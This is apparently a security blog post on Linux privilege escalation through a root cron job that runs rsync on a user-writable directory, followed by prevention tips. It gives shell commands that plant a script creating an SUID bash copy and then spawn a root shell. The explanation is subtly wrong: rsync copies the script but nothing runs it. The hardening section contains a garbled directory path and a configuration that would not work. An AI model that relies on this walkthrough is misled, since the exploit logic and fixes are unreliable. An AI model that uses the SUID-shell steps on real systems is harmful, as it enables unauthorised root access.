 ```yaml
---
title: "
Privilege Escalation Using Cron and Rsync"
date: 2023-02-05 14:15:24
categories: [privilege-escalation, linux]
tags: [redteam, privilege-escalation, linux]
---
```


In production environments, cron jobs are often used to schedule maintenance tasks and data backups. However, improper configuration can introduce vulnerabilities that can be exploited for privilege escalation. This article describes a realistic scenario where a cron job configured to use `rsync` can be exploited to gain elevated privileges.
#### Introduction 

Cron jobs allow for the automatic execution of scripts or programs at scheduled times. While useful, misconfigurations or inadequate permissions can lead to serious vulnerabilities. In this example, we will demonstrate how an attacker can exploit a vulnerable cron job to gain elevated privileges.

### Example Scenario 
Consider a scenario where a cron job is configured to back up the directory `/var/html/virtualstore.django.website` to `/backup/virtualstore` every minute. This cron job runs as root:

```plaintext
* * * * * root rsync -av /var/html/virtualstore.django.website/ /backup/virtualstore/
```
The vulnerability arises because the source directory (`/var/html/virtualstore.django.website`) is accessible and modifiable by a non-privileged user.
### Steps for Exploitation 

#### 1. Create a Malicious Script 
The first step is to create a malicious script that will be copied to the destination directory and executed with root privileges. The following script creates an SUID shell at `/tmp/rootbash`.

```bash
echo '#!/bin/bash' > /var/html/virtualstore.django.website/malicious.sh
echo 'cp /bin/bash /tmp/rootbash' >> /var/html/virtualstore.django.website/malicious.sh
echo 'chmod +s /tmp/rootbash' >> /var/html/virtualstore.django.website/malicious.sh
chmod +x /var/html/virtualstore.django.website/malicious.sh
```

#### 2. Modify the Trigger File 

Next, ensure the malicious script is executed by creating or modifying a file that will be interpreted by the cron job.


```bash
echo "/var/html/virtualstore.django.website/malicious.sh" > /var/html/virtualstore.django.website/trigger.sh
chmod +x /var/html/virtualstore.django.website/trigger.sh
```

#### 3. Wait for the Cron Job to Execute 
When the cron job runs, it will synchronize the contents of `/var/html/virtualstore.django.website/` to `/backup/virtualstore/`, including the `malicious.sh` script.
#### 4. Execute the Malicious Script 
After the cron job synchronizes the files, the malicious script will be executed with root privileges, creating an SUID shell at `/tmp/rootbash`.
#### 5. Obtain a Root Shell 

Finally, the attacker can execute the shell with root privileges:


```bash
/tmp/rootbash -p
```

### Prevention 

To prevent this type of vulnerability, follow these best practices:
 
1. **Restrict Access Permissions:** 
  - Ensure that only authorized users can modify the contents of directories used by cron jobs.
 
2. **Validate and Sanitize:** 
  - Implement proper validation and sanitization for any data inputs processed by scripts or cron jobs.
 
3. **Principle of Least Privilege:** 
  - Run cron jobs with the least amount of privilege necessary. Avoid running cron jobs as root unless absolutely necessary.
 
4. **Segregate Directories:** 
  - Use source and destination directories that are not directly accessible by non-privileged users.

### Example of a Secure Cron Job 

To configure a secure cron job, follow these guidelines:

#### Cron Job Configuration 

Add the cron job to the crontab of a specific user with restricted permissions:


```bash
crontab -e
```

Add the following line:


```plaintext
* * * * * rsync -av --delete /var/html/virtualstore.django.website/ /backup/virtualstore/
```

#### Directory Permissions 

Ensure that the directories have restricted permissions:


```bash
# Source directory (only the specific user can modify)
chown -R user:user /var/html/virtualstore.django.website
chmod -R 700 /var/html/virtualstore.django.website

# Destination directory (only root can modify)
chown -R root:root /backup/virtualstore
chmod -R 700 /backup/lojavivirtualstorertual
```

### Conclusion 

Improperly configured cron jobs can lead to privilege escalation vulnerabilities. The example provided demonstrates how a misconfigured cron job can be exploited. By following recommended security practices, such as restricting permissions and running with the least privilege necessary, you can mitigate these risks and protect your environment.


---

**References:**  
1. [HackTricks: Privilege Escalation via Cron Jobs](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
 
2. [TryHackMe Linux Privilege Escalation Room](https://tryhackme.com/room/linprivesc)